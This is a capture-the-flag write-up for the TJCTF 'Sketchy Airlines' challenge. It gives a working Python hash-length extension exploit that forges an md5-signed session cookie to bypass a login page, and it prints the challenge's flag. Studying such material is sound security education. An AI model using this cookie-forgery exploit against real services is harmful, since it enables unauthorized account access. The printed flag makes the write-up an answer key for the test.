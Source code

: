 # Sketchy Airlines (100 pts)

---

## Problem

---

## Solution

1. Scan barcode given in picture (type is PDF417) to get his ticket number: `2198-b14f-e3c9-c54d-0b65`
2. Get to login portal by entering ticket number
3. Use a Hash-length extension attack to bypass the login. Set username to his full name
4. Run pdftotext on the PDF that is returned. Get flag.

Python code to generate the LEA:
```python
import hashpumpy
import urllib2
import requests

# md5($SECRET_KEY . $sess_str)
session = 'logged_in%253Dfalse%2526name%253D'
session = urllib2.unquote(session)
session = urllib2.unquote(session)
digest = '2cc207d867af2d2a55ff4141b6e3e8f2'

append = '&logged_in=true&name=John Doe'

#generate a valid hash and message
hp = hashpumpy.hashpump(digest, session, append, 16)
hsh= hp[0] 
msg= hp[1]
msg = urllib2.quote(msg)
print "msg="+msg
print "hash="+hsh

cookies = {'session':msg, 'hash':hsh}
url = 'http://sketchyairlines.p.tjctf.org/verify_login.php?flight=2198-b14f-e3c9-c54d-0b65'
r = requests.post(url, data = {'username':'admin', 'password': 'password', 'debug': 'true'}, cookies = cookies)

f = open("flight.pdf", "w+")
f.write(r.content)
f.close()
```

---

## Flag
`tjctf{h1d3_y0UR_84RC0d3s}`